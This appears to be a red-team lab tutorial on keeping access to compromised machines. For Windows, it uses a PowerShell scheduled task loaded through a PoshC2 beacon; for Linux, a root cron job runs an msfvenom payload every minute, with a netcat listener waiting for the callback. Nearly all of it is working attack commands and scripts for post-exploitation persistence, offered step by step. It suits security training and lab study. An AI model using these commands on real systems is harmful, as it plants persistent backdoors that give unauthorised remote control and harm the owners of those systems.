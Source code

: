# Windows Persistence Using Scheduled Tasks and Poshc2

1. With your new beacon lets set simple persistence using `scheduled task` 
2. On parrot lets create a `.ps1` for our persistence 
3. If you have sublime installed run , alternatively use vim
    ```
    subl scktask.ps1
    ```

    ```
    vim scktask.ps1
    ```
4. Paste the following and save your script
    ```powershell
    $outpath = "C:\window\public\downloads\test.exe"
    $action = New-ScheduledTaskAction -Execute $outpath
    $days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
    $trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Persistence Test" -Description "We got persistence"
    ```
5. In your beacon run pslo
    ```powershell
    pslo 
    ```
6. You should get confirmation your script work 

7. Lets verify our persistence is working by running sharpps 
    ```powershell
    sharpps get-scheduledtask -Taskname "Persistence Test"
    ```

# Linux Persistence Using Cornjobs and Msfvenom

1. Create a script to run the payload you created:
    ```sh
    vi job.sh
    ```
    
    ```sh
    #!/bin/sh
    /location/of/payload/yup.elf
    exit 0
    ```
2. Create a job in cron to run:
    ```sh
    sudo crontab -e
    ```
    * Below all of the comments, add these lines:
    ```sh
    SHELL=/bin/sh
    * * * * *   cd /location/of/script/ && sh job.sh
    ```

3. Verify that cron is running:
    ```sh
    ps axfww | grep cron
    #If not, troubleshoot to get it running
    /etc/init.d/cron <status/stop/start/restart>
    service cron <status/stop/start/restart>
    systemctl <status/stop/start/restart> crond.service
    ```

4. On your parrot box, run your netcat command as you did previously:
    ```sh
    sudo nc -nlvp 80
    ```